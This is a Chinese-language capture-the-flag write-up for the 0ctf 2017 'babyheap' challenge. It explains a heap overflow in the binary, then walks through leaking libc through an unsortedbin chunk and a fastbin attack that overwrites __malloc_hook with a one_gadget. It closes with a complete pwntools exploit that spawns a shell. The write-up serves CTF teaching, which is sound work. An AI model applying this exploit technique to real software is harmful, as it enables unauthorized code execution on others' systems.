## 0x001 程序分析

通过checksec查看程序开启的保护，可见保护全开。



程序中主要的功能函数

**Allocate函数**



在进入该函数之前，会生成一个堆管理表，该表的结构分为三个内容，状态、实际大小、分配的堆地址。

进入Allocate函数后，首先会对堆管理表进行遍历，如果发现有状态为0的空区域，则会根据输入的大小，使用calloc创建一块堆空间，并将创建的堆块信息存入管理表中。

**Fill函数**



该函数根据输入的序号，在堆管理表中进行搜索，如果该序号对应区域的状态值为1，则会根据输入的大小，对相应的堆块进行写操作。

**Free函数**



该函数根据输入的序号，在堆管理表中进行搜索，如果该序号对应区域的状态值为1，则会释放掉对于的堆区域，并将相应的堆信息置为0。

**Dump函数**



该函数根据输入的序号，在堆管理表中进行搜索，如果该序号对应区域的状态值为1，则会打印对应的堆区域中的值，打印的长度为堆管理表中保存的长度。

## 0x002 漏洞分析

根据上述对每个函数的分析可知，该程序在执行Fill函数时存在堆溢出。

因为在执行Allocate函数创建堆空间时，会根据输入的大小创建相对应大小的堆区域。但是在执行Fill函数时，可以向堆区域中输入任意长度的内容，并没有对输入的长度进行限制，因此存在堆溢出漏洞。

## 0x003 漏洞利用

由于该程序的各种保护全开，因此首先需要泄露libc的地址。这里就需要用到 **unsortedbin**。**unsortedbin** 有一个特性，就是如果 **unsortedbin** 只有一个bin ，它的 **fd** 和 **bk** 指针会指向同一个地址（ **unsortedbin** 链表的头部），这个地址相对 **libc** 固定偏移 **0x3c4b78** ，所以得到这个 **fd** 的值，然后减去固定偏移，即可得到 **libc** 的基地址。

接下来就根据动态调试来详细分析泄露libc地址以及利用fastbin attack的过程。

### 泄露libc地址

首先构造堆块，申请四个大小符合fastbins的堆块，一个大小符合unsortedbin的堆块，释放其中两个大小符合fastbins的堆块。
```
allocate(0x10)
allocate(0x10)
allocate(0x10)
allocate(0x10)
allocate(0x80)
free(1)
free(2)
```

此时的堆布局如下：



在释放两个之后，可以看到fastbins表中已经有两个地址，而且 chunk2->fd 指向 chunk1。此时可以编辑chunk0，修改 chunk2->fd 指向 chunk4，并且需要编辑chunk3，来修改chunk4的大小，以此绕过malloc时的fastbins校验。
```
payload = p64(0) * 3 + p64(0x21) + p64(0) * 3 + p64(0x21) + p8(0x80)
fill(0, payload)
payload = p64(0) * 3 + p64(0x21)
fill(3, payload)
```

此时的堆布局以及堆管理表的内容如下：



可以看到已经将chunk4的大小改为了0x21，并将chunk4放进了fastbins表中，而此时的chunk1和chunk2都不在堆管理表中了。

接下来再创建两个大小符合fastbins中的堆块，那么此时就会首先分配位于fastbins表中的地址。
```
allocate(0x10)
allocate(0x10)
```

此时的堆布局以及堆管理表的内容如下：



由此可以看到现在的堆管理表，已经将chunk2的地址改为了chunk4的地址。接下来就需要编辑chunk3来恢复chunk4的大小，然后再创建一个大小符合unsortedbin的堆块（由于释放的如果紧邻top chunk的堆块时，不会放到unsortedbin表中，因此需要再创建一个，保证chunk4不紧邻top chunk），释放掉chunk4。
```
payload = p64(0) * 3 + p64(0x91)
fill(3, payload)
allocate(0x80)
free(4)
```

此时的堆布局以及堆管理表的内容如下：



此时就可以看到chun4的fd和bk已经变成了libc中的地址，而堆管理表中chunk2的地址仍然是chunk4的地址，这时通过dump函数打印chunk2的内容，实际输出的就是chunk4的fd和bk。



可以看到，该地址距离libc的偏移为0x3c4b78，由此可计算出libc的基地址。

### 覆盖__malloc_hook地址

有了libc的基地址，此时就需要计算执行execve("/bin/sh",0,0)命令的地址和__malloc_hook前符合要求伪造堆块的地址。

可以通过one_gadge获取执行execve("/bin/sh",0,0)命令的偏移



通过寻找可以发现__malloc_hook前有一个符合要求的地址，该地址距离libc的偏移为0x3c4aed。



可以根据泄露的libc地址来计算这两个地址
```
libc_base = u64(dump(2, 8)) - 0x3c4b78
fake_heap = libc_base + 0x3c4aed
execve_shell = libc_base + 0x4526a
```

那么最后就是利用fastbin attack来修改__malloc_hook的地址。从上面发现符合要求的伪造堆块地址可以看到，该堆块的size为0x7f，符合fastbin表中的大小。

首先创建一个大小在0x7f-0x80之间的堆块，该堆块会处于chunk4中，然后释放chunk4，再通过编辑chunk2，将chunk4->fd修改为伪造的堆块地址。
```
allocate(0x60)
free(4)
payload = p64(fake_heap)
fill(2, payload)
```

此时的堆布局如下：



可以看到此时fastbins表中已经有两个地址，那么此时再此创建堆块
```
allocate(0x60)
allocate(0x60)
```

此时的堆布局以及堆管理表的内容如下：



可以看到，在堆管理表中，第6块内容就是伪造的堆块地址，通过计算可知，伪造堆块地址距离__malloc_hook的偏移为0x13，那么此时通过编辑chunk6，就可以任意修改__malloc_hook的地址。
```
payload = p8(0) * 3 + p64(0) * 2 + p64(execve_shell)
fill(6, payload)
```

最后，再次调用malloc函数，即可执行execve("/bin/sh",0,0)命令，获取系统权限。

最终exp如下：
```
from pwn import *

p = process("./babyheap_0ctf_2017")

def allocate(size):
    p.sendlineafter("Command: ", "1")
    p.sendlineafter("Size: ", str(size))

def fill(idx, payload):
    p.sendlineafter("Command: ", "2")
    p.sendlineafter("Index: ", str(idx))
    p.sendlineafter("Size: ", str(len(payload)))
    p.sendlineafter("Content: ", payload)
    
def free(idx):
    p.sendlineafter("Command: ", "3")
    p.sendlineafter("Index: ", str(idx))

def dump(idx, len):
    p.sendlineafter("Command: ", "4")
    p.sendlineafter("Index: ", str(idx))
    p.recvuntil("Content: \n")
    return p.recv(len)

allocate(0x10)
allocate(0x10)
allocate(0x10)
allocate(0x10)
allocate(0x80)
free(1)
free(2)

payload = p64(0) * 3 + p64(0x21) + p64(0) * 3 + p64(0x21) + p8(0x80)
fill(0, payload)

payload = p64(0) * 3 + p64(0x21)
fill(3, payload)

allocate(0x10)
allocate(0x10)

payload = p64(0) * 3 + p64(0x91)
fill(3, payload)
allocate(0x80)
free(4)

libc_base = u64(dump(2, 8)) - 0x3c4b78
fake_heap = libc_base + 0x3c4aed
execve_shell = libc_base + 0x4526a

print (hex(libc_base))
print (hex(fake_heap))
print (hex(execve_shell))

allocate(0x60)
free(4)
payload = p64(fake_heap)
fill(2, payload)

allocate(0x60)
allocate(0x60)

payload = p8(0) * 3 + p64(0) * 2 + p64(execve_shell)
fill(6, payload)
allocate(200)

p.interactive()
```